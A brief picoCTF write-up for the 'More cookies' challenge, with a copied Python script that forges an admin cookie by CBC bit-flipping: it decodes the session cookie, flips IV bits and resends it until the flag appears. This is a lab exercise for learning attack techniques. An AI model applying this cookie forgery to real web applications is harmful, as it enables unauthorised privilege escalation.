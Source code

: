 # More cookies  →  90 Pts.

1. We need an admin rights to view the cookie.
2. Inspected the page -> Applications -> Cookie was saved as "auth_name" and then the value: a3c0ZTZtN1pRYTRKdkVmSXhKTit6bmdLWWgyaXYzZlZwcFZXQ3FWaE5QSzJKWTBBVVNRQ2FDS2d0Zk1USlUxa2M5djNnYnpwNEJjNitIZElLNU9mQXJyaForajRKdnhJYnhoOFRGSUFqbjYzZ0h4ZlEzUFBNcTU1Qks5WXlaUW0=
3. We need to decode this then and only then we will get the flag.
4. The algorithm used here is CBC and according to that we need to find. (googled the answer as I didn't knew how to handle cookies with admin privilege)
5. Found a script on GitHub for decoding the code.

``` bash
import requests
import base64

s=requests.Session()
s.get('[http://mercury.picoctf.net:10868/](http://mercury.picoctf.net:10868/)')
cookie = s.cookies['auth_name']
unb64 = base64.b64decode(cookie)
unb64b = base64.b64decode(unb64)

// first 128-bit block is IV, flip IV bit to flip plaintext bit "admin=0" to "admin=1"

// looping through bytes (16 bytes because 128-bit block)

for i in range(0, 128):
pos=i//8
guessdec = unb64b[0:pos] + (unb64b[pos]^(1<<(i%8))).to_bytes(1, 'big') + unb64b[pos+1:]
guess=base64.b64encode(base64.b64encode(guessdec))
r=requests.get('[http://mercury.picoctf.net:10868/](http://mercury.picoctf.net:10868/)', cookies={"auth_name": guess.decode()})
if "pico" in r.text:
print("Flag: " + r.text.split("<code>")[1].split("</code>")[0])
break

```

6. After running this script we will get our Flag in the output.
7. What this script does is that it gets the cookies info from the provided site, decode the cookie to base64 and then uses the concept of CBC to flip the IV bit and loop it.
